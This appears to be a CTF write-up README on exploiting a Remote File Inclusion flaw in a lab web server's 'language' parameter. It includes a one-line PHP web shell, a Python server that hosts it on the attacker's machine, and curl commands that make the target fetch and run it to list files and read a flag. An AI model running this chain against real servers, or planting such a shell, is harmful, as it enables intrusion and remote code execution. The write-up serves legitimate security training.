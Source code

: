 # RFI Exploit Write-Up (Target: 10.129.29.114)

This repository documents the exploitation of a Remote File Inclusion (RFI) vulnerability on the web server at `10.129.29.114` to achieve remote code execution (RCE) and locate a flag in a Capture The Flag (CTF) challenge.

## Overview
The target web application at `http://10.129.29.114/index.php` has an RFI vulnerability in the `language` parameter, allowing inclusion of remote PHP scripts. By hosting a malicious PHP script on my machine (`10.10.14.179`), I executed commands and found the flag in `/<directory_name>/flag.txt`.

## Prerequisites
- A Linux machine with Python 3 and curl.
- A malicious PHP script (`shell.php`).
- Network access to the target (`10.129.29.114`).

## Steps

### Step 1: Verify Remote File Inclusion (RFI)
```bash
http://10.129.29.114/index.php?language=http://10.10.14.179/index.php
```
![image](https://github.com/user-attachments/assets/43a2bcde-5069-45e1-a231-14088f58c2d8)

### Step 2: Create and Host the Malicious PHP Script
I created a PHP web shell to execute system commands:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
I hosted the script using a Python HTTP server on port 80 (my IP: 10.10.14.179):
```bash
sudo python3 -m http.server 80
```
### Step 3: Verify Remote Code Execution

I tested the RFI vulnerability by including shell.php and running the id command:
```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/298834b5-eb02-4d30-93da-947cee4ddc06)

This confirmed RCE as the www-data user.

### Step 4: Explore the File System

I listed the root directory to identify potential flag locations:

```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=ls%20/"
```
![image](https://github.com/user-attachments/assets/2be6a63f-ef77-4b93-adbe-d9ac293a27cb)

### Step 5: Locate the Flag
```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=ls%20/<directory_name>/"
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=cat%20/<directory_name>/flag.txt"
```
## Files
`shell.php`: Malicious PHP script used for RCE.
